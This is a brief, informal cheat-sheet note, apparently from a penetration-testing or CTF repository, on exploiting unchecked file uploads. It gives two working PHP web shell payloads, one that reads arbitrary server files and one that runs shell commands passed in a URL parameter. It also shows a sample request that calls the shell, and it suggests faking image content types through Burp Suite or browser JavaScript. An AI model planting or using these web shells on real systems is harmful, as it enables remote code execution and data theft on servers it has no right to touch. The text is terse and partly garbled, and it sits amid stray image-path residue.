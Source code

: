 # file upload
when files are uploaded
and not checked

its possible to upload fe a webshell
and then acces the webshell

## uploads
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
xample/exploit.php?command=id HTTP/1.1

## formdata
sometimes it only checks if a content type is image/png or something
you can ez do it in burpsuite
or with js see "script/file_upload_blob.js" you could just execute this in console
